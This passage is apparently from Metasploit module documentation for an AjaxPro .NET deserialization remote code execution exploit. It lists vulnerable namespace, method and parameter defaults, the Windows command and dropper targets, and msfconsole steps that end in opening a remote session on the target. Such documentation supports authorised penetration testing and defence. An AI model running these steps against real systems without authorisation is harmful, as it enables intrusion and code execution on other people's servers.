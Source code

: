 If this class is added back, the patched `AjaxPro.2.dll` should have a consistent
behavior with versions before regarding the deserialization RCE issue.

##### Options for the module in this example

`Namespace` should be `AjaxPro.Services.ICartService,AjaxPro.2`

`Method` should be `AddItem`

`Parameter` should be `item`

## Verification Steps

1. Follow the instructions in the previous section to setup a vulnerable version of AjaxPro.
2. Open the msfconsole, and do the following steps:
```
use exploit/windows/http/ajaxpro_deserialization_rce
set rhosts <target ip>
set rport <target port>
set lhost <local ip>
set method <vulnerable Ajax method>
set parameter <vulnerable Ajax parameter>
set namespace <vulnerable Ajax namespace>
set SSL <true> if the target port is SSL enabled.
set target <target #>
exploit
```
3. You should get session.

## Targets

### 0 (Windows Command)

This executes a Windows command.

### 1 (Windows Dropper)

This uses a Windows dropper to execute code.

## Options

### TARGETURI

The base path to AjaxPro Handler, which is set to `/ajaxpro/` by default.

### Namespace

The namespace of vulnerable method, which is set to `AjaxPro.Services.ICartService,AjaxPro.2`
by default.

> Namespace of the class joint with classname and project name,
> which will be passed to `System.Type.GetType(string)`.
>
> Please make sure you can get the `ExampleClass` when passing this `{Namespace}` to
> `System.Type.GetType(string)`.
